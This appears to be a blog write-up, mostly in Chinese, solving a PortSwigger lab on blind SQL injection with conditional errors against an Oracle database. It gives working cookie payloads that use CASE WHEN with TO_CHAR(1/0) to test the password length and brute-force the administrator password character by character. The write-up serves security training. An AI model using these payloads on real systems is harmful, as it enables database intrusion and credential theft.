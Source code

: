 ```yaml
---
layout: post
title: "Blind SQL Blind SQL injection with conditional errorswith conditional errors"
description: ""
date: 2023-07-11
categories:
  - PortSwigger_Lab
  - PortSwigger_SQL_Injection
author: ""
tags: ['PortSwigger_Lab', 'SQL_Injection']
---
```






# Blind SQL Blind SQL injection with conditional errorswith conditional errors


```


This lab contains a [blind SQL injection](https://portswigger.net/web-security/sql-injection/blind) vulnerability. The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows. If the SQL query causes an error, then the application returns a custom error message.

The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability to find out the password of the `administrator` user.

To solve the lab, log in as the `administrator` user.

#### Hint

This lab uses an Oracle database. For more information, see the [SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet).





本實驗室包含一個 [blind SQL injection](https://portswigger.net/web-security/sql-injection/blind) 漏洞。 該應用程序使用跟踪 cookie 進行分析，並執行包含提交的 cookie 值的 SQL 查詢。

不會返回 SQL 查詢的結果，並且應用程序不會根據查詢是否返回任何行而做出任何不同的響應。 如果 SQL 查詢導致錯誤，則應用程序會返回自定義錯誤消息。

該數據庫包含一個名為“users”的不同表，其中包含名為“username”和“password”的列。 您需要利用盲注[SQL注入](https://portswigger.net/web-security/sql-injection)漏洞找出`administrator`用戶的密碼。

要解決實驗室問題，請以“管理員”用戶身份登錄。

＃＃＃＃ 暗示

本實驗室使用 Oracle 數據庫。 有關詳細信息，請參閱 [SQL 注入備忘單](https://portswigger.net/web-security/sql-injection/cheat-sheet)。



```





MYSQL
```

select '1' ; 

select '1' ';
//語句後面沒有閉合報錯。

select '1' '';
//語句後面閉合正確。


```


這題類似，使用報錯注入


```
TrackingId=xyz'
// 500 Internal Server Error

TrackingId=xyz''
//200 OK

```

|| 是ORACLE 的拼接
```
xyz' || (select '') ||' 


(select '') = 空值

所以最後還是會變成
xyz''
//200 OK

但結果居然是
500 Internal Server Error

這裡有個坑。(ORACLE select 必須用  FROM 關鍵字)
xyz' || (select '' from dual) ||'
//200 OK

```


測users表是否存在。
存在就不會報錯。
```
xyz' ||(select '' from users where rownum =1)|| '
//200 OK


xyz' ||(select '' from users12345689 where rownum =1)|| '
// 500 Internal Server Error

```


1.只要 when 條件式= TRUE  就執行 then 
2  to_char(1/0)  會出現錯誤(具體原因有帶查詢，這邊只要知道會有錯誤就可)
3.
```
xyz' ||(select case when (1=1) then to_char(1/0) else '' end from dual)||'

```

結論 我們想要的判斷的資料就故意報錯。


判断顺序是先判断where后面的内容。
1 .  from users where username='administrator' 成立，找的到為1。
 然後走到，when (1=1)  then to_char(1/0) 故意報錯

2 . from users where username='administrator111' 不成立，找不到為0，
走到 ELSE ' ' 


```
TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
// echo 500 




TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator111')||'
//echo 200



```


1.FROM users WHERE username='administrator' 成立
2.密碼長度又大於1
就報錯。

```
TrackingId=xyz'||(SELECT CASE WHEN LENGTH(password)>1 THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||'

```

測出來密碼大於 20 會 200 OK，代表密碼長度為20


到了這拿去爆破
只要是我們要的，就會報錯 500 
```
TrackingId=xyz'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'




******************************************
 SUBSTR( password, xxxxx, 1)='yyyyyy'
 xxxxx 設置 1-20
 yyyyyy 設置 a-z A-Z 0-9
******************************************




```


最後爆破出密碼，登入吧。

